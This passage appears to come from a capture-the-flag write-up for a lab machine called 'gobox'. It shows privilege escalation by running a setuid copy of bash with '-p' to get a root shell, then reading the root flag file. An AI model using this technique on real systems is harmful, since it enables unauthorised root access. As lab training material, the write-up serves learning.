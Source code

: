 

Notice the `s` as the forth letter there. Running it with `-p` will
preserve privilege:



    www-data@gobox:~$ /tmp/bash -p
    bash-5.0#



And I can get the last flag:



    bash-5.0# cat /root/root.txt
    81d35170************************







